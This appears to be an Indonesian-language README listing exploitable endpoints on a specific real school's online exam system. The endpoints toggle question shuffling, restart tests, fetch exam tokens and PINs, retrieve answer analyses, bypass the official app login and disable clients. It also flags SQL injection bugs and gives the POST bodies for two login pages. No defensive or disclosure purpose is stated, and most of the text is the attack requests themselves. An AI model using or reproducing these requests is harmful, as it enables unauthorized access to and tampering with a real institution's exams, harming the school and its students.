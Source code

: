 ### Nonaktifkan & Aktifkan Acak Soal
   - Nonaktifkan Acak\
   `sman1kaliwungu.sch.id/smanka/acak2.php?stat=0`

   - Aktifkan Acak\
   `sman1kaliwungu.sch.id/smanka/acak2.php?stat=1`

### Ulangi Kerjakan Test Melanjutkan waktu
   `sman1kaliwungu.sch.id/smanka/ulangi.php?ujian=(noujian/nisn)&mapel=(id mapel)`
   
### Ulangi Kerjakan Test dari nol
   `sman1kaliwungu.sch.id/smanka/ulanginol.php?ujian=(noujian/nisn)&mapel=(id mapel)`

### Ambil Token Ujian
   `sman1kaliwungu.sch.id/smanka/ambiltoken.php`

### Ambil Pin Ujian
   `sman1kaliwungu.sch.id/smanka/pin.php`

### Ambil Analisis
   `sman1kaliwungu.sch.id/smanka/analisis.php?kirim=(tipe soal dan id mapel)`\
   `sman1kaliwungu.sch.id/smanka/ulanganexcel.php?kirim=(tipe soal dan id mapel)`

### Login Ujian Tanpa APK
   `sman1kaliwungu.sch.id/smanka/and.php`\
   :warning: Bug SQL Injection

   Metode inject harus menggunakan pihak kedua yaitu web local atau bisa web online
   1. Metode Inject Post\
      lansung ke awal atau siap ujian\
      `sman1kaliwungu.sch.id/smanka/awal.php`
      > Post Body
      >
      > id=(noujian/nisn)

      :warning: Bug SQL Injection
   2. Metode Inject\
      Metode login seperti android\
      `sman1kaliwungu.sch.id/smanka/signin.php`
      > Post Body
      >
      > masuk=(noujian/nisn)&mlebu=(password)

      :warning: Bug SQL Injection

### Nonaktifkan & Aktifkan Client
   - Nonaktifkan Client\
   `sman1kaliwungu.sch.id/smanka/aktif.php?stat=0`

   - Aktifkan Client\
   `sman1kaliwungu.sch.id/smanka/aktif.php?stat=1`
   